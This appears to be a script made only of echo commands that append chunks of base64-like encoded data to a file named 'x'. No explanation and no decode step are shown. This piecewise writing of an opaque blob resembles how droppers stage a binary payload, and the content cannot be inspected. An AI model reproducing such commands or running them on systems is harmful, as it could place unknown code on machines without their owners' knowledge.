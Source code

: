 echo mZhZJk1Sf1ZkZtKP0maFpw0QuJSWUUdOJT/NJB1XJ71h1io0O0+PjMzaz8z6HpNUkJFcq5utS0nu>>x
echo 0Mx6kImQZA+jakxIDmck75+RvG/G7Hz1rAfV2rZE7U/VyaFMRjdv58GDB1WnmdkDCZHjs6PqyA6t>>x
echo g5n9doLWmaXlZiYHGCZXPbswOdIz+9vqSGIqGrF0bTQttYUZVKEYIc87s95NjEzXOtT9fj+jh/9o>>x
echo n56nTknRnp65K3EUJXWYuRsVnMfvT32dOs1fMvovZM38nVptvSFCUt9kdirQU5qYNludNjsJepnx>>x
echo 7n/OeOu76kPinEUHb/gBo0mv16TeOosVZ2c92Z+YOPu3Nw8chIekZtbtUvn9KmOqtyj10cz+vYmp>>x
echo LxrUtfPTUsT0B0RN2n2pY4kgNidPZHfVJVlv7K82zdNxSQfZeZtv6R8ZWViqTl7ALLiQkWyam1Gb>>x
echo tLAoISMpsf/0+dR0RvVDQ/9ooirKJD+ZkPG9hIxblmTsSO9PSsp8lMl4KDnjRznaggUL30jOuJyt>>x
echo 3XFjhMu8KSmzNidTyIzsXZSekPndfLU1A0Lo3hqPXFhirScPr9154ULWkkcb4HMJo+KCZ/6gqlUv>>x
echo vFetshUnb0hZ9B8a1cPlyY8nL09Sq2Lm5I81i25PZipMi57XMfdwiy5nZt+g1v7bwkhWtml+pCe7>>x
echo Q/vNUTnmay8yy7QZ2XvZ3G+oc7eqs388g5SKeXN35IoNOSv2LXnoQSx+8X/dkiWYklhu7tiNEV2S>>x
echo YJhnYpVjkXmj6dMVTGTzvM+mqe5fnsGlR1JUb92dMZJuvFnN3GVMtc41/gvDHF/GfS9J+0aWOmvx>>x
echo jdHZuZvT1J4czSyRM36W+IKYN0/Mn/tdQ0lyZMxQ8UHy3Jx5o3P7N2+e92lycvfywoPpyY8PGk2Z>>x
echo 2roi4975EaP24azi0dnaEWt2dP70VfNnvCUmPC/OGBR1u8Qlzb9eMPzrec8tWfjUsoxpOctH0itv>>x
echo Tpi9fafen56aXqofnrtrGkpZ5k2Nqb80qq2Z2T9Ki1xIWyjOWS/eYBXT68WSO39vJqJZfDLjQFHl>>x
echo aHqEyzi7oopL3zXN759WVlVvzdxjrBqZX3VeS62Q/VzjmpY3blwpKm5dQZ1jmdjIReaO/Xrht5bM>>x
echo G1228K2ccv8Ni26IrtSxi4Y5496s7Bn96/ZnrPslU61Qm3YlrHu9psA6svrdh0z9TIFCpHv4E9Ea>>x
echo Obt8Y045u2T5D5eX+xct/+iupkiu0bMysropptPHcmxZcyIf36pkcpcX2wQIf6tFHbmQ+w2D5max>>x
echo be8Dm95obF/YePf2nFk5dWuOVLcPq+9dciS7KPvFRUXZZPGR6ro17cOa9jfVB4GLLnpxURT4ujUP>>x
echo WbbnbM/x147lOJf6l/ldzpqxte1XEu52Lt2eU7fkocUds5gOHdORwuz2L9u+tm5NxxztwBhmdCRp>>x
echo +sfWdqRoOtYwHRXqXTX+WmdN+8Xu3f7a/bll+o7hhI4nEgb8y2bltB9L6PfXdrym6d+f2/Em0/EM>>x
echo c/f+3E/zs/PRHE7peF1zG2E6/sZgLFl+mzah4/fafnJzx7DneWfNRiEcYLsErz8c4gOs0x5kO3ne>>x
echo x4YC9qCTd7CdfWzIybP1lvpbgBPcdl8+2yD0sLzPLdz2fMK3GvrsPrbKHsrPzy/A3eNgIu4fjS1N>>x
echo bFVjvbWl2dLE1phtbKXF0sCuaalaZ6lmKzeyzTUWmWBzU+PN5ob86UnTkz4vRo/gywmxnYIQYsN+>>x
echo 1r7F7vLlTk8KCmw4yLOuEAspPYJvC637hDD9Z6AFlEh5NX02B/pc6AsJ7FaXxyNz6qFvXXY6vY9y>>x
echo CvYFQ7yXjunkpyc5+CDW1oflunzBkN0X8vTlsuDmkMQIBfooz/Jq7OM/AeYBnKGQv7ygYIsgbPHw>>x
echo +V1CftfWgiBvD3Q5V9++qhPk9D32Pn1I0FMR9JRlkPd0X2OeU+jRF+oDvFfYxuvt+m2uQDh4LV7e>>x
echo Lns3z+u3BfU+IRASfNcaT3lArCDvc0ywoG1vn7474ALymvxcPr4rYO8O6Z32Xr1D6PF5BLsDzCfF>>x
echo vS7+W/iQ3iv4+L5r6lLw3eHSd4Ydjr6r3LoDPH9duuwM9+l7eN5BrleuLsExqXq9y4eXYNju0Xfa>>x
echo g66uifvM19Lpcdqpavx+3gcC3dT0egfv4UO8XvY5Y+E1aWwxhvQB49bQNXVjD3U547JO6OZac6TR>>x
echo +XzvtfTn8mEf+mAlvtfvEQJ8QO+Cozh5veTcnQGhJ8gHrkMf3fYuHvt4K3TStRXbEkoWPJIBv+g8>>x
echo +h4hII0p5Awl17MO2NflcUA2D7/FFfo81eu0d4C3wzR0g+oxUR+w+4KCt8ceuB7/wvz4ZvXy3jv0>>x
echo cni8zn2ADTcR7ahmHQJddw/vCjigZbxDGaFu2iP7ElzR77kDDY//6+k67L6tkjjXJ/+kDeQp15hj>>x
echo 93TrPa5uXm/Ewj28PQh1Q33XmodVIAqGETrsIRdm2j3X9hsEh5B9C6/32wMCtr7XLjlG/N/9ZQf5>>x
echo 2vnUVSWrwJRxll87nob9rQgx0tNr78Nf8Hr2u1tw+vRdvM+u97ocrrgj+oQQrOvbxgdCiD3X8GMf>>x
echo H7SHuyRpeczyePiukIsG8q+Xd2sAOuV79cEuHDQCji04ErzP5wKpoD/gCvFBSaRJOvDsHj4QzPe6>>x
echo ugJCUOgOgaS3gPflhYMF0GsIbAu6hUDYO9G6TYASA3kTrSD92AJGKKBqzfPaPXSXSM6eJ3t+HnVo>>x
echo Guk8fXnxE5UOLywp7ewydBXmGcu6i/KKCrtL88o4NIvLVthLVhg7SzqLiqfq2Sux7RTsAUf+NqxG>>x
echo EhMWdBT00HiXh+0RnGCfFwoHfHn2vImtlIewJaDtcMEMdk+ek/d4ILefn0Lf77H35Xd5wp3YVlvC>>x
echo Lh+lP9nXJfhDLq/rDj6AZUs9k/OoygSoV8J22T3SeQBL834Emy6vg/RQpQMX4LfwDleITEROOi5k>>x
echo D271bgkQbxB+0e3aQnHeoB95TYg4+G3eLd5QPvoIeqE3D/F6u2gexa6rratD0lS/MZ4rIc2h2RdN>>x
echo erB8dosQz3QcLp7+rESaLLZmtraBtdbabLnsmsYmSytysHq08kkt22ZuagA1EEa6RmrMNWa2geMq>>x
echo 2bpCK7vW2Mw2Gdc1I38D8W67y4N0yB6S0yWD0biCdRb1csicaEZzB2VG5WtuqgVBWyPSvKZq1txQ>>x
echo za5tbKbtNeamXLayRRKG5nuWhupcVsoMrVWQw8bamrG0eFK4ALKgbsLqLA03N25kK7FSstbSjMyx>>x
echo WU4iN7ANlg3NbHNtvYXtrcb4Vgsmg3bTxtqGtWxzI0uXjvXKTKrNzWaasd25qeBOI33g1K20NVZD>>x
echo HGSmmAH5W2ubWmystcncsI5duraxwcK2NTU2rF1G9SiLQQVv2GhuYKvM0MtaPsTS+MAiQXRJjs96>>x
echo yxbI+qLGQCKM/SaEsAoo9gt/ZFG9fStfLzvuWnrumGleS4itsd5S2Vi9kW1sqLJgJXWwt+VqkmzG>>x
echo miBdg5ltaoTG6i0TeUibsw92d0jOwG+TcnYXbDY1710dT6yhc1eQ7Q53baVG9fUhOc0nNr4rHOAr>>x
echo aZIdRE+Q2nRLoJT1lrIuFnVpQSmpsW+TMuYJ2thu1OOQDgvd3aDkYAWfnJ+vJhW1PuQEIfZmgfew>>x
echo t4exM1hsZP4mKivWy4fosUbFs0O6tWaXmUUk6URIWhBfDzZrLku3rEDvHAE+n62Np+CdvMeFJbI9>>x
echo fA6e0gUF+9PPBzxIzemOcSCCOjA+x8tW0oyRksyRPhXDH2YG+qRTFQR7YD36pZi3b/K6kTM9ic2j>>x
echo phWErpCBlbMPzG9x5rJVCBSsNR4p2GaXl6crQPrKdiIc8o4FXz7ZJuV6NXaaUMvv68MIiVJcl9uW>>x
echo 3i6P3WuXUaSA9BA7CZEu4iQOIhAaIJBgE2rECXs34x5GgxD1H8km7nAwxCKV68IiHHShiB5BF/Ih>>x
echo tOIBEncrSQvxpnwPctoDXnlfT164qCVxxvJBatqwLxy0d3ro5NruyVgT5Hkp2Ejk+GAQpzPIhZxC>>x
echo OMRu9Qk9tJNmv18UDXcpF06GPtgM83B9lNghdEomiYtEs5yrDClBmVpoqvgOARLSybQRDtLpdjaI>>x
echo GxDuo9iRgs/Lw7owEE6/UG6c30Ze8jqc8HBOV0i6blY30jiBQNTQTGOHZYOlCrdVbLpaG1tvrkOg>>x
echo tOTSiNJS10zDC4IYokBLQ4vNXFmHfWmuqqltsMR/15cm4Y/u2Doz4i8Ns5glXUkpsqrJYkZoomMa>>x
echo EB1B1trYYKullBChQXkj4lW9eS0lXG1hW2xSRJsiCijJ4XJCztrm1dRnvPAZF6H+s2lT/iarsw+3>>x
echo FLunOuDaxnPA0cMpPyR9q+cLOTw062oKecwOahwrBiHEb8GB1RBqsruCfA0OXEsgIEjnlY3wACcJ>>x
echo wyepP/aAi5UEwG0bwIPeLYSedfTrB+xDKgKwAvFIc0PSGA9hMT8oSbgF7yHQc6HNwssFyO6XqPOg>>x
echo uppcLcPxxli81pjkWhevU+N1drzOj9dF8XpjvHbJtWmHXPsfiLcfkeqJbzanA84BjpUD4t9rTvSl>>x
echo kM+XtVXNdfRfHeh3j9I3kNlead0T30vmu+iHjNlSMqNDADoyF7j4N5CUPuUjt7PvuOMORyfd4/Qb>>x
echo znvI5FzpbmiqwCqv4oySj1V8jof01SP9d60OZhInf+FoJWQXHRf/pnLXevmTy/zOoJzObpY/nZS+>>x
echo pczmDBIKiEHFJE6Sobfi6rrfRQTPxhrHp+C+CS0+BpxnCu4J4NJZWdaJstAs6+fMFFwvcHuB27Tq>>x
echo Ku47wGmgs1NTxh0BbpAlX1r+8W+KMo+Jf1O0KJGdWANCl9nhoEGPkGpVnYBgYPZI38LWyK019IeT>>x